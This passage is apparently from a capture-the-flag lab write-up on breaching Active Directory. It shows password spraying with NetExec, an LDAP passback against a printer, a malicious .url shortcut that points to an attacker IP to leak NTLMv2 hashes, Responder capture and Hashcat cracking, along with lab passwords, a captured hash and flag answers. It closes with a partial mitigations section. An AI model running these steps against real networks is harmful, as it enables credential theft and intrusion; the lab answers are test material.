SMB 10.10.x.x 445 YOURDC [*] Windows Server 2022 Build 20348 x64 (name:RDC1) (domain:thm.loc) (signing:True) (SMBv1:False)
SMB 10.10.x.x 445 YOURDC [+] thm.loc\validuser:validpassword
SMB 10.10.x.x 445 YOURDC [+] Dumping password info for domain: THM
SMB 10.10.x.x 445 YOURDC Minimum password length: 8
SMB 10.10.x.x 445 YOURDC Password history length: 12
SMB 10.10.x.x 445 YOURDC Account Lockout Threshold: 5
SMB 10.10.x.x 445 YOURDC Reset Account Lockout Counter: 30
SMB 10.10.x.x 445 YOURDC Locked Account Duration: 30
SMB 10.10.x.x 445 YOURDC Password Complexity: ENABLED
SMB 10.10.x.x 445 YOURDC Minimum Password Age: 1
SMB 10.10.x.x 445 YOURDC Maximum Password Age: 42
```

In this example, the lockout threshold is 5 attempts, and the counter resets after 30 minutes. This means we can safely spray up to 4 passwords per 30-minute window without triggering lockouts.

> [!NOTE]  
> If you don't yet have any credentials to query the policy, the safest approach is to assume a conservative lockout threshold and spray only one password at a time with a generous delay between rounds.

#### Spraying with NetExec

[NetExec](https://github.com/Pennyw0rth/NetExec) (nxc) is a powerful network exploitation tool and the successor to the now-archived CrackMapExec. It supports authentication testing across multiple protocols, including SMB, LDAP, WinRM, RDP, and MSSQL, making it an ideal tool for password spraying.

Before we can spray, let's first do a bit of cleanup of the output from Kerbrute:

```bash
grep "VALID USERNAME" valid_users.txt | awk '{print $NF}' | sed 's/@thm.loc//' > clean_users.txt
```

Let's spray a single password against our validated username list over SMB. If you saved your valid usernames from Task 3 to a file, you can use it directly:

```bash
user@attackbox:~$ nxc smb 192.168.12.100 -u clean_users.txt -p 'MegaCorp01!' --continue-on-success
```

Let's break down the parameters:

- `smb`: The protocol to use for authentication. SMB (port 445) is the most common target for spraying against a domain controller.
- `192.168.12.100`: The IP address of the target domain controller.
- `-u valid_users.txt`: A file containing the usernames to spray (one per line).
- `-p 'MegaCorp01!'`: The single password to spray against all usernames.
- `--continue-on-success`: By default, NetExec stops after the first successful login. This flag tells it to continue testing all usernames, which is essential during a spray to identify all accounts using the same password.

You should see output similar to the following:

```bash
user@attackbox:~$ nxc smb 192.168.12.100 -u clean_users.txt -p 'MegaCorp01!' --continue-on-success
SMB 10.10.x.x 445 YOURDC [*] Windows Server 2022 Build 20348 x64 (name:RDC1) (domain:thm.loc) (signing:True) (SMBv1:False)
SMB 10.10.x.x 445 YOURDC [-] thm.loc\jane.smith:MegaCorp01! STATUS_LOGON_FAILURE
SMB 10.10.x.x 445 YOURDC [-] thm.loc\bob.taylor:MegaCorp01! STATUS_LOGON_FAILURE
SMB 10.10.x.x 445 YOURDC [+] thm.loc\alice.moore:MegaCorp01!
SMB 10.10.x.x 445 YOURDC [-] thm.loc\charlie.davis:MegaCorp01! STATUS_LOGON_FAILURE
SMB 10.10.x.x 445 YOURDC [-] thm.loc\eve.wilson:MegaCorp01! STATUS_ACCOUNT_DISABLED
SMB 10.10.x.x 445 YOURDC [-] thm.loc\frank.brown:MegaCorp01! STATUS_LOGON_FAILURE
[...SNIP...]
```

#### Interpreting the Results

The output tells us several things at a glance:

- `[+]`: A successful authentication. The username and password combination is valid. This is our target — a breached credential.
- `[-] STATUS_LOGON_FAILURE`: The password is incorrect for this account. This is the expected response for most accounts during a spray.
- `[-] STATUS_ACCOUNT_DISABLED`: The account exists but has been disabled. This doesn't count as a failed login attempt, so it won't contribute to lockouts, but we can't use it.
- `[-] STATUS_ACCOUNT_LOCKED_OUT`: The account has been locked out. If you see this, stop spraying immediately — you may be triggering lockouts. Review the lockout policy and adjust your approach.
- `(Pwn3d!)`: If this appears after a successful login, the account has local administrator privileges on the target host. This is an even bigger win than a standard domain user.

> [!TIP]
> If you see `STATUS_ACCOUNT_LOCKED_OUT` for any account during your spray, stop and investigate. You can also use NetExec's `--jitter` flag to introduce random delays between authentication attempts, reducing the risk of lockouts and detection: `nxc smb 192.168.12.100 -u clean_users.txt -p 'MegaCorp01!' --continue-on-success --jitter 2-5`

#### Other Spray Targets

In this task, we sprayed against SMB on the domain controller. However, password spraying can also target other AD-integrated services, including Outlook Web Access (OWA), RDP, VPN portals, and LDAP. These alternative spray targets will be explored in later rooms. NetExec supports many of these protocols natively. You can simply swap `SMB` for `RDP`, `LDAP`, `WinRM`, or `MSSQL` in the command syntax.

---------------------------------------------------------------------------

#### How many accounts were cracked using the brute force attack?

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Networks/Medium/Intro_to_AD_Breaching]
└─$ nxc smb $DC_IP -u clean_users.txt -p 'MegaCorp01!' --continue-on-success
SMB         192.168.12.100  445    RDC1             [*] Windows 10 / Server 2019 Build 17763 x64 (name:RDC1) (domain:thm.loc) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         192.168.12.100  445    RDC1             [-] thm.loc\ryan.patel:MegaCorp01! STATUS_LOGON_FAILURE 
SMB         192.168.12.100  445    RDC1             [-] thm.loc\mary.jenkins:MegaCorp01! STATUS_LOGON_FAILURE 
SMB         192.168.12.100  445    RDC1             [-] thm.loc\claire.ross:MegaCorp01! STATUS_LOGON_FAILURE 
SMB         192.168.12.100  445    RDC1             [-] thm.loc\phillip.green:MegaCorp01! STATUS_LOGON_FAILURE 
SMB         192.168.12.100  445    RDC1             [-] thm.loc\emma.clark:MegaCorp01! STATUS_LOGON_FAILURE 
SMB         192.168.12.100  445    RDC1             [-] thm.loc\ben.carter:MegaCorp01! STATUS_LOGON_FAILURE 
SMB         192.168.12.100  445    RDC1             [-] thm.loc\administrator:MegaCorp01! STATUS_LOGON_FAILURE 
SMB         192.168.12.100  445    RDC1             [-] thm.loc\james.wilson:MegaCorp01! STATUS_LOGON_FAILURE 
SMB         192.168.12.100  445    RDC1             [-] thm.loc\laura.wood:MegaCorp01! STATUS_LOGON_FAILURE 
SMB         192.168.12.100  445    RDC1             [-] thm.loc\anna.lee:MegaCorp01! STATUS_LOGON_FAILURE 
SMB         192.168.12.100  445    RDC1             [-] thm.loc\kevin.shah:MegaCorp01! STATUS_LOGON_FAILURE 
SMB         192.168.12.100  445    RDC1             [-] thm.loc\john.harris:MegaCorp01! STATUS_LOGON_FAILURE 
SMB         192.168.12.100  445    RDC1             [-] thm.loc\lisa.chen:MegaCorp01! STATUS_LOGON_FAILURE 
SMB         192.168.12.100  445    RDC1             [-] thm.loc\sarah.jones:MegaCorp01! STATUS_LOGON_FAILURE 
SMB         192.168.12.100  445    RDC1             [-] thm.loc\susan.brooks:MegaCorp01! STATUS_LOGON_FAILURE 
SMB         192.168.12.100  445    RDC1             [-] thm.loc\david.grant:MegaCorp01! STATUS_LOGON_FAILURE 
SMB         192.168.12.100  445    RDC1             [-] thm.loc\rachel.king:MegaCorp01! STATUS_LOGON_FAILURE 
SMB         192.168.12.100  445    RDC1             [-] thm.loc\mike.brown:MegaCorp01! STATUS_LOGON_FAILURE 
SMB         192.168.12.100  445    RDC1             [-] thm.loc\hannah.scott:MegaCorp01! STATUS_LOGON_FAILURE 
SMB         192.168.12.100  445    RDC1             [-] thm.loc\adam.cole:MegaCorp01! STATUS_LOGON_FAILURE 
SMB         192.168.12.100  445    RDC1             [-] thm.loc\nina.kumar:MegaCorp01! STATUS_LOGON_FAILURE 
SMB         192.168.12.100  445    RDC1             [-] thm.loc\tom.wright:MegaCorp01! STATUS_LOGON_FAILURE 
SMB         192.168.12.100  445    RDC1             [-] thm.loc\kate.miller:MegaCorp01! STATUS_LOGON_FAILURE 
SMB         192.168.12.100  445    RDC1             [+] thm.loc\dev.intern:MegaCorp01! 
SMB         192.168.12.100  445    RDC1             [-] thm.loc\bob.taylor:MegaCorp01! STATUS_LOGON_FAILURE 
SMB         192.168.12.100  445    RDC1             [-] thm.loc\daniel.reed:MegaCorp01! STATUS_LOGON_FAILURE 
SMB         192.168.12.100  445    RDC1             [-] thm.loc\alex.foster:MegaCorp01! STATUS_LOGON_FAILURE 
SMB         192.168.12.100  445    RDC1             [-] thm.loc\sophie.hall:MegaCorp01! STATUS_LOGON_FAILURE 
SMB         192.168.12.100  445    RDC1             [-] thm.loc\lucy.powell:MegaCorp01! STATUS_LOGON_FAILURE 
SMB         192.168.12.100  445    RDC1             [-] thm.loc\sam.morgan:MegaCorp01! STATUS_LOGON_FAILURE 
SMB         192.168.12.100  445    RDC1             [-] thm.loc\olivia.hunt:MegaCorp01! STATUS_LOGON_FAILURE 
SMB         192.168.12.100  445    RDC1             [-] thm.loc\chris.baker:MegaCorp01! STATUS_LOGON_FAILURE 
SMB         192.168.12.100  445    RDC1             [+] thm.loc\alice.moore:MegaCorp01! 
SMB         192.168.12.100  445    RDC1             [-] thm.loc\mark.robinson:MegaCorp01! STATUS_LOGON_FAILURE 
SMB         192.168.12.100  445    RDC1             [-] thm.loc\peter.davies:MegaCorp01! STATUS_LOGON_FAILURE 
SMB         192.168.12.100  445    RDC1             [-] thm.loc\amy.fisher:MegaCorp01! STATUS_LOGON_FAILURE 
SMB         192.168.12.100  445    RDC1             [-] thm.loc\grace.edwards:MegaCorp01! STATUS_LOGON_FAILURE 
SMB         192.168.12.100  445    RDC1             [-] thm.loc\megan.price:MegaCorp01! STATUS_LOGON_FAILURE 
SMB         192.168.12.100  445    RDC1             [-] thm.loc\luke.barnes:MegaCorp01! STATUS_LOGON_FAILURE 
SMB         192.168.12.100  445    RDC1             [-] thm.loc\jake.hughes:MegaCorp01! STATUS_LOGON_FAILURE 
SMB         192.168.12.100  445    RDC1             [-] thm.loc\frank.butler:MegaCorp01! STATUS_LOGON_FAILURE 
SMB         192.168.12.100  445    RDC1             [-] thm.loc\zoe.murphy:MegaCorp01! STATUS_LOGON_FAILURE 
SMB         192.168.12.100  445    RDC1             [-] thm.loc\svc.jenkins:MegaCorp01! STATUS_LOGON_FAILURE 
```

Answer: `2`

#### Which is the first user account (alphabetically) that uses the default onboarding password?

See output above.

Answer: `alice.moore`

---------------------------------------------------------------------------

### Task 6: Coercion Attacks

#### Introduction to Authentication Coercion

So far, we have looked at techniques that involve either discovering existing credentials or guessing them. In this task, we'll explore a different approach entirely called **coercion attacks**. Instead of searching for credentials or spraying passwords, coercion tricks a device or user into sending authentication material to an attacker-controlled listener. This maps to MITRE [ATT&CK technique T1187 (Forced Authentication)](https://attack.mitre.org/techniques/T1187/).

We will cover two beginner-friendly coercion techniques: an **LDAP passback attack** against a misconfigured network printer, and **file-based coercion** on a writable file share.

---------------------------------------------------------------------------

#### What Is an LDAP Passback Attack?

Many network devices such as printers, scanners, and multifunction peripherals (MFPs) integrate with Active Directory via LDAP to support features like scan-to-email, address book lookups, and user authentication at the device panel. To make this work, the device stores a set of LDAP credentials (typically a service account) that it uses to bind to the domain controller and perform directory queries.

An LDAP passback attack exploits this by redirecting the device's LDAP connection to an attacker-controlled listener. The attack flow is straightforward:

1. Access the device's web-based administration interface (the Embedded Web Service), often using default or weak credentials.
2. Navigate to the LDAP configuration page.
3. Replace the legitimate LDAP server IP address with our attacker machine's IP address.
4. Trigger a connection test as most devices include a "Test Connection" or "Check Connection" button for exactly this purpose.
5. The device sends the stored LDAP credentials to our listener, and we capture them.

#### Why Does This Work?

MFPs and IoT devices are among the most overlooked assets during security hardening. Common issues include:

- **Default admin credentials**: Devices are deployed with factory-default credentials and never changed. Common defaults include `admin:admin` (HP), `admin:` with a blank password (Ricoh), and `ADMIN:canon` (Canon).
- **Over-privileged service accounts**: The LDAP service account is sometimes a Domain Admin, far exceeding what is required for directory lookups.
- **Plaintext LDAP (port 389)**: Many devices are configured to use unencrypted LDAP rather than LDAPS (port 636), meaning credentials are transmitted in clear text.
- **No credential rotation**: Service account passwords for device integrations are rarely rotated, meaning a captured credential may remain valid for months or years.

#### Performing the Attack

In the lab, a network printer is accessible with its web admin panel exposed. Let's walk through the attack. Navigate to the printer application on [http://printer.thm.loc/](http://printer.thm.loc/).

First, access the printer's admin panel (using `admin:admin`) in your browser and locate the LDAP configuration page. You should see the current LDAP server IP and port, along with the service account username. The password field will be masked, but the device still stores the password internally.

Change the LDAP server IP address to your `tun0` IP and a different port (such as 3489) and press Save Settings to save these settings before you continue. Before triggering the test connection, we need to set up a listener to capture the credentials. For a device configured to use plaintext LDAP on port 389, a simple Netcat listener is often sufficient:

```bash
user@attackbox:~$ nc -lvnp 3489
```

> [!NOTE]  
> On the Attackbox port `389`, the default LDAP port, is already in use. Hence we are using `3489`.

Now, return to the printer's admin panel and click the **Test Connection** button. The device will attempt to authenticate to our listener using the stored LDAP credentials. Back in our Netcat terminal, we should see the incoming connection with the credentials in the output:

```bash
user@attackbox:~$ nc -lvnp 3489
listening on [any] 389 ...
connect to [YOURIP] from (UNKNOWN) [PRINTERIP] 49562
0Y`T;CN=svc.ldap,OU=Service Accounts,DC=thm,DC=loc<REDACTED_PASSWORD>
```

The output will contain the service account's distinguished name (DN) and the plaintext password. The exact format depends on the device so you may need to look through the raw data for the credential string.

> [!NOTE]  
> Some modern devices negotiate SASL authentication or TLS-wrapped LDAP, in which case a simple Netcat listener won't capture plaintext credentials. In these situations, you would need to set up a rogue LDAP server (e.g., using `slapd` or Impacket's `ldapd.py`) that can handle the negotiation and capture the bind credentials. For this room, the target device uses plaintext LDAP, so Netcat is sufficient.

#### Verifying the Captured Credentials

With the captured username and password, we can verify that the credentials are valid using NetExec:

```bash
user@attackbox:~$ nxc smb 192.168.12.100 -u 'svc.ldap' -p 'CAPTURED_PASSWORD'

SMB   192.168.x.x  445  YOURDC  [*] Windows Server 2022 Build 20348 x64 (name:YOURDC) (domain:thm.loc) (signing:True) (SMBv1:False)
SMB   192.168.x.x  445  YOURDC  [-] thm.loc\svc.ldap:CAPTURED_PASSWORD STATUS_ACCOUNT_DISABLED
```

A `[-]` confirms valid domain credentials, but sadly this account is disabled. No matter, there are other ways we look to breach the perimeter!

---------------------------------------------------------------------------

#### What is File-Based Coercion?

File-based coercion takes a different approach to forcing authentication. Instead of reconfiguring a device, we place a specially crafted file on a writable network share. When a user browses that share using Windows Explorer, the operating system automatically attempts to render the file's icon. If the icon path points to a UNC path on our attacker machine (e.g., `\\TUN0_IP\share\icon.ico`), Windows will follow that path and send the browsing user's NTLMv2 hash to our listener, all without the user opening or clicking the file.

This works because Windows Explorer renders icons and thumbnails for files in a directory as soon as it is opened. Certain file types, including `.url` (Internet Shortcut) files, allow an `IconFile` field that specifies where the icon should be loaded from. If this field contains a UNC path to an external host, Windows will silently initiate an SMB authentication attempt to that host, leaking the user's NTLMv2 hash.



> [!NOTE]  
> Historically, `.scf` (Shell Command File) and `desktop.ini` files were used for the same attack. However, Microsoft has patched these vectors on fully updated Windows 10 and 11 systems. `.url` files remain effective on current Windows versions and are the recommended technique for this attack.

#### Creating a Malicious .url File

The syntax for a .url file is minimal, including just a few lines in an INI-style format:

```text
user@attackbox:~$ cat > @Shortcut.url << 'EOF'
[InternetShortcut]
URL=http://thm.loc
WorkingDirectory=thm
IconFile=\\YOURTUN0IP\icons\icon.ico
IconIndex=1
EOF
```

> [!IMPORTANT]  
> The `'EOF'` (with quotes) is deliberate. Without the quotes, bash will interpret the double backslashes in the IconFile path as single backslashes, resulting in an invalid UNC path that won't trigger authentication.

Let's break this down:

- `[InternetShortcut]`: The file type header.
- `URL`: A URL for the shortcut to point to (this can be anything — it is not the coercion mechanism).
- `WorkingDirectory`: A working directory for the shortcut.
- `IconFile`: This is the critical field. The UNC path here will cause Windows to attempt SMB authentication to our attacker machine when it tries to load the icon.
- `IconIndex`: The icon index within the file (standard value).

Note the filename: `@Shortcut.url`. The leading `@` character ensures the file sorts to the top of the directory listing in Windows Explorer, which means it is one of the first files rendered, maximising the chance that the icon is loaded as soon as a user opens the share.

#### Setting up Responder

Before placing the file on the share, we need a listener to capture the NTLMv2 hashes. Responder(opens in new tab) is the go-to tool for this, it listens on multiple protocols and captures authentication material:

```bash
user@attackbox:~$ sudo responder -I tun0

                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.x.x.x

[+] Listening for events...
```

Responder will listen on port 445 (SMB), among others, and capture any NTLMv2 hashes that are sent to our machine.

#### Placing the File and Capturing the Hash

Now, upload the malicious `.url` file to the writable share. You can use `smbclient` to connect to the share and upload the file:

```bash
user@attackbox:~$ smbclient //SERVER1.thm.loc/shared-docs -U 'THM\alice.moore%MegaCorp01!'
smb: \> put @Shortcut.url
putting file @Shortcut.url as \@Shortcut.url (X.X kb/s) (average X.X kb/s)
smb: \> exit
```

Now we wait. When a user browses the share (in this lab, a simulated user will browse the share periodically), Windows Explorer will attempt to load the icon from our UNC path. Back in our Responder terminal, we should see the captured NTLMv2 hash:

```bash
[SMB] NTLMv2-SSP Client   : 192.168.x.x
[SMB] NTLMv2-SSP Username : THM\sarah.jones
[SMB] NTLMv2-SSP Hash     : sarah.jones::THM:1122334455667788:A1B2C3D4E5F6...[SNIP]
```

We have captured an NTLMv2 hash. However, unlike the LDAP passback attack where we obtained a plaintext password, this is a **Net-NTLMv2 hash**, which cannot be used directly for pass-the-hash attacks. We need to crack it offline.

#### Cracking the Hash with Hashcat

Before cracking the hash, we need to save it to a file. For this example, we've saved it to `hash.txt`. We can crack the NTLMv2 hash using [Hashcat](https://hashcat.net/hashcat/) with mode `5600` (NetNTLMv2):

```bash
user@attackbox:~$ hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt --force

SARAH.JONES::THM:1122334455667788:A1B2C3D4E5F6...[SNIP]:CRACKED_PASSWORD

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
```

Once cracked, we have another valid set of AD credentials, obtained without ever spraying a password or discovering an exposed secret.

---------------------------------------------------------------------------

#### A Note on Advanced Coercion Techniques

The two techniques covered in this task are just the tip of the iceberg when it comes to authentication coercion. More advanced techniques, including PetitPotam, PrinterBug/SpoolSample, and DFSCoerce, can force domain controllers and other high-value machines to authenticate to an attacker-controlled listener. Combined with relay attacks (where you forward the captured authentication rather than cracking it), these techniques form some of the most potent AD attack chains available today. These will be explored in depth in dedicated rooms later in the module.

---------------------------------------------------------------------------

#### What is the Bind DN of the service account captured during the LDAP passback attack?

We start by browsing to `http://printer.thm.loc/login` and login with `admin:admin`.

Then we navigate to `LDAP / Directory` in the menu to the left.

Next, we start a netcat listener on port 389.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Networks/Medium/Intro_to_AD_Breaching]
└─$ nc -lvnp 389                                                            
listening on [any] 389 ...

```

And change the `LDAP Server Address` to our Kali IP.

Finally, wwe press `Save Settings` and `Test Connection`.

Back at our netcat listener, we get traffic.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Networks/Medium/Intro_to_AD_Breaching]
└─$ nc -lvnp 389                                                            
listening on [any] 389 ...
connect to [192.168.21.11] from (UNKNOWN) [192.168.12.71] 52808
0G`B-CN=svc.ldap,OU=Service Accounts,DC=thm,DC=loc�Pr1ntBind2025!  
```

Answer: `CN=svc.ldap,OU=Service Accounts,DC=thm,DC=loc`

#### What is the plaintext password captured from the LDAP passback?

See output above.

Answer: `Pr1ntBind2025!`

#### What is the cracked password for sarah.jones obtained through file-based coercion?

First we create a malicious shortcut file.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Networks/Medium/Intro_to_AD_Breaching]
└─$ cat > @Shortcut.url << 'EOF'
[InternetShortcut]
URL=http://thm.loc
WorkingDirectory=thm
IconFile=\\192.168.21.11\icons\icon.ico
IconIndex=1
EOF

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Networks/Medium/Intro_to_AD_Breaching]
└─$ cat @Shortcut.url           
[InternetShortcut]
URL=http://thm.loc
WorkingDirectory=thm
IconFile=\\192.168.21.11\icons\icon.ico
IconIndex=1
```

Then we start Responder and make sure it's listening on SMB/port 445.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Networks/Medium/Intro_to_AD_Breaching]
└─$ sudo responder -I tun0
[sudo] password for kali: 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.5.0

  To support this project:
  Github -> https://github.com/sponsors/lgandx
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [OFF]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [192.168.21.11]
    Responder IPv6             [fe80::be2:7846:35a9:10e5]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
    Don't Respond To MDNS TLD  ['_DOSVC']
    TTL for poisoned response  [default]

[+] Current Session Variables:
    Responder Machine Name     [WIN-KJWGPP37ORH]
    Responder Domain Name      [8PH7.LOCAL]
    Responder DCE-RPC Port     [49886]

[+] Listening for events...   
```

Next, we upload the shortcyt file.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Networks/Medium/Intro_to_AD_Breaching]
└─$ smbclient //192.168.12.51/shared-docs -U 'THM\alice.moore%MegaCorp01!'  
Try "help" to get a list of possible commands.
smb: \> put @Shortcut.url
putting file @Shortcut.url as \@Shortcut.url (1.0 kb/s) (average 1.0 kb/s)
smb: \> exit
```

Then we wait for a captured request.

```bash
[+] Listening for events...                                                                                                                                                                   

[SMB] NTLMv2-SSP Client   : 192.168.12.61
[SMB] NTLMv2-SSP Username : THM\sarah.jones
[SMB] NTLMv2-SSP Hash     : sarah.jones::THM:14329170bac920f0:37FDCE387A458D34A4D452AA7307546B:010100000000000000EC5512CE30DD0153D63D769E27DE120000000002000800380050004800370001001E00570049004E002D004B004A005700470050005000330037004F005200480004003400570049004E002D004B004A005700470050005000330037004F00520048002E0038005000480037002E004C004F00430041004C000300140038005000480037002E004C004F00430041004C000500140038005000480037002E004C004F00430041004C000700080000EC5512CE30DD0106000400020000000800300030000000000000000000000000200000590A9AC01478CE0633B3AE22002703BB8263AB5212EB9224EC6E5B2B69075A050A001000000000000000000000000000000000000900240063006900660073002F003100390032002E003100360038002E00320031002E00310031000000000000000000                             
[*] Skipping previously captured hash for THM\sarah.jones
[*] Skipping previously captured hash for THM\sarah.jones
[*] Skipping previously captured hash for THM\sarah.jones
[*] Skipping previously captured hash for THM\sarah.jones
<---snip--->
```

The hash is saved to a file.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Networks/Medium/Intro_to_AD_Breaching]
└─$ vi sarah_hash.txt                                             

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Networks/Medium/Intro_to_AD_Breaching]
└─$ cat sarah_hash.txt 
sarah.jones::THM:14329170bac920f0:37FDCE387A458D34A4D452AA7307546B:010100000000000000EC5512CE30DD0153D63D769E27DE120000000002000800380050004800370001001E00570049004E002D004B004A005700470050005000330037004F005200480004003400570049004E002D004B004A005700470050005000330037004F00520048002E0038005000480037002E004C004F00430041004C000300140038005000480037002E004C004F00430041004C000500140038005000480037002E004C004F00430041004C000700080000EC5512CE30DD0106000400020000000800300030000000000000000000000000200000590A9AC01478CE0633B3AE22002703BB8263AB5212EB9224EC6E5B2B69075A050A001000000000000000000000000000000000000900240063006900660073002F003100390032002E003100360038002E00320031002E00310031000000000000000000
```

Finally, we crack it with hashcat.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Networks/Medium/Intro_to_AD_Breaching]
└─$ hashcat -m 5600 sarah_hash.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-Intel(R) Core(TM) i7-4790 CPU @ 3.60GHz, 2913/5890 MB (1024 MB allocatable), 8MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 2 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

SARAH.JONES::THM:14329170bac920f0:37fdce387a458d34a4d452aa7307546b:010100000000000000ec5512ce30dd0153d63d769e27de120000000002000800380050004800370001001e00570049004e002d004b004a005700470050005000330037004f005200480004003400570049004e002d004b004a005700470050005000330037004f00520048002e0038005000480037002e004c004f00430041004c000300140038005000480037002e004c004f00430041004c000500140038005000480037002e004c004f00430041004c000700080000ec5512ce30dd0106000400020000000800300030000000000000000000000000200000590a9ac01478ce0633b3ae22002703bb8263ab5212eb9224ec6e5b2b69075a050a001000000000000000000000000000000000000900240063006900660073002f003100390032002e003100360038002e00320031002e00310031000000000000000000:Trustno1
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: SARAH.JONES::THM:14329170bac920f0:37fdce387a458d34a...000000
Time.Started.....: Thu Aug 20 18:19:11 2026 (0 secs)
Time.Estimated...: Thu Aug 20 18:19:11 2026 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1366.7 kH/s (1.35ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 53248/14344385 (0.37%)
Rejected.........: 0/53248 (0.00%)
Restore.Point....: 49152/14344385 (0.34%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: truckin -> spook
Hardware.Mon.#1..: Util: 15%

Started: Thu Aug 20 18:19:10 2026
Stopped: Thu Aug 20 18:19:13 2026
```

Answer: `Trustno1`

---------------------------------------------------------------------------

### Task 7: Mitigations

Now that we've explored several techniques for breaching an AD environment, let's shift perspective and look at how organisations can defend against them. Understanding mitigations doesn't just make you a better defender, it makes you a better attacker. Knowing what controls to expect helps you identify when they're absent and adjust your approach accordingly.

Below is a summary of defensive measures mapped to each breaching technique covered in this room.

#### Secrets Management

Credentials in Git repositories, CI/CD build logs, and configuration files were among the easiest wins in our engagement. Mitigating this requires a disciplined approach to secrets management:

- Use a dedicated secrets vault (such as HashiCorp Vault, Azure Key Vault, or AWS Secrets Manager) to store and retrieve credentials rather than embedding them in source code or configuration files.
- Implement pre-commit hooks using tools like TruffleHog or Gitleaks to scan for secrets before they are committed to version control.
- Regularly audit existing repositories for historical credential exposure. Remember, a secret removed in the latest commit still exists in Git history.
- Rotate credentials immediately when exposure is detected. Removing the secret from the code is not enough; the old credential must be invalidated.
- Mask or redact secrets in CI/CD build logs and restrict access to build output to authorised personnel only.

#### Password Policies and Account Lockout

Password spraying was effective because users chose predictable passwords that met complexity requirements on paper but were easily guessable in practice. Strong password policies should include:

- A minimum password length of 14 or more characters. Length is far more effective than complexity alone.
- Banning common passwords and organisation-specific patterns (e.g., company name + year, season + year) using custom banned password lists. Azure AD Password Protection and similar tools can enforce this.
- Avoiding organisation-wide default passwords for new accounts. Each new account should receive a unique, randomly generated initial password.
- Configuring account lockout thresholds carefully. A threshold that is too low (e.g., 3 attempts) causes operational disruption; too high (e.g., 50 attempts) gives attackers room to spray freely. A threshold of 5–10 attempts with a 30-minute observation window is a common balance.
- Monitoring for distributed authentication failures across multiple accounts. This is the signature of a password spray and should trigger an alert even if no single account hits the lockout threshold.

#### Device Hardening

The LDAP passback attack relied entirely on a printer with default credentials and a plaintext LDAP configuration. Hardening network devices involves:

- Changing default administrative credentials on all network devices including printers, scanners, MFPs, and IoT devices before deployment.
- Using LDAPS (port 636) instead of plaintext LDAP (port 389) for all directory integrations. When LDAP traffic is encrypted, a passback attack captures an encrypted session rather than plaintext credentials.
- Restricting access to device admin interfaces by IP address or VLAN. These interfaces should not be accessible from general user networks.
- Using dedicated, low-privilege service accounts for device LDAP integrations, never a Domain Admin or other highly privileged account. The service account should have read-only access limited to the specific directory objects the device needs (e.g., address book lookups).
- Including network devices in regular vulnerability scanning and asset management programmes.

#### File Share Security

File-based coercion was possible because a share had overly permissive write access. Securing file shares requires:

